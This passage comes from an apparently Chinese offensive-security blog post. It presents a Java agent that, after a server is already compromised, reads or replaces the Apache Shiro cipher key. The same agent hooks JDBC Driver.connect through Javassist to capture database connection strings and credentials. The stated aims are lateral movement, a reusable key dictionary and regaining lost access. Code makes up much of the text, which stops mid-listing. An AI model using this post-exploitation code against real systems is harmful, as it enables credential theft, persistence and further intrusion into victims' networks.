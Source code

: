 ```bash
setCipherKey(org.apache.shiro.codec.Base64.decode(temp));
// temp 传入修改的 shiro 的值
```

- - -

#### [获取 shiro 的 key](#toc_shirokey_1)

为什么我们需要获取 shiro 的 key 呢？其实这才是我最开始想做的事情，修改 key 只是后来想到加上去的。本意和北辰的文章[从内存中 Dump JDBC 数据库明文密码](https://mp.weixin.qq.com/s/QCfqO2BJuhSOr58rldZzxA)类似，但也有不同的地方。我们来假设一个场景来帮助大家来理解，如果我们一个站点存在 shiro，但我们跑不出 key。但我们通过了其他 RCE 或者任意文件上传的手段获取到了 shell，这时候我们就可以通过本文中的工具去获取 shiro 的 key 值。我们都获取到了 shell，为什么还要获取 key 呢？

1.  可以方便我们快速的实现内网横向，毕竟 shiro 这个漏洞利用已经非常非常成熟了。
2.  可以将这个 key 加入我们 key 字典中，方便之后的项目中测试。
3.  如果我们修改 key，但我们一失手忘记掉了 key，也还要补救的措施。
4.  如果点掉了，可以通过 shiro 这个入口快速重新切进去。

目前我和师傅 hl0rey 所能想到获取 shiro 的 key 的四点价值，这么来看获取 key 是非常有必要的功能。

具体实现代码其实也非常的简单，最终笔者将北辰师傅获取 JDBC 字符串、修改 key 和获取 key 三个功能整合在了一起，加了一个判断。

```bash
fileOutputStream.write(org.apache.shiro.codec.Base64.encodeToString(getDecryptionCipherKey()).getBytes());
```

最终完整的实现代码如下：

```bash
    public static void agentmain(String agentArg, Instrumentation inst){
        arg2 = agentArg;
        Class[] classes  = inst.getAllLoadedClasses();

        for (int i = 0; i < classes.length; i++) {
            Class clazz = classes[i];
            try {
                // 判断类clazz是否是Driver.class的子类、实现类
                if (Driver.class.isAssignableFrom(clazz)){
                    ClassPool classPool = new ClassPool(true);
                    // 加入clazz的classpath
                    classPool.insertClassPath(new ClassClassPath(clazz));
                    // 加入类加载器
                    classPool.insertClassPath(new LoaderClassPath(clazz.getClassLoader()));
                    CtClass ctClass = classPool.get(clazz.getName());
                    // 获取类中的connect方法 方法desc有getMethodSignature方法获取
                    CtMethod ctMethod = ctClass.getMethod("connect","(Ljava/lang/String;Ljava/util/Properties;)Ljava/sql/Connection;");
                    // 修改connect方法，再开头加入自定义代码
                    ctMethod.insertBefore(String.format("                    try {\n" +
                            "                        java.lang.Class.forName(\"%s\",true,java.lang.ClassLoader.getSystemClassLoader()).getMethod(\"add\", new java.lang.Class[]{java.lang.String.class, java.util.Properties.class}).invoke(null,new java.lang.Object[]{$1,$2});\n" +
                            "                    }catch (java.lang.Throwable e){\n" +
//                            "                        e.printStackTrace();\n" +
                            "                        \n" +
                            "                    }",Main.class.getName()));

                    inst.redefineClasses(new ClassDefinition(clazz,ctClass.toBytecode()));
                    ctClass.detach();
                }
            }catch (Throwable e){
                e.printStackTrace();
            }
        }


        Class cls = null;
```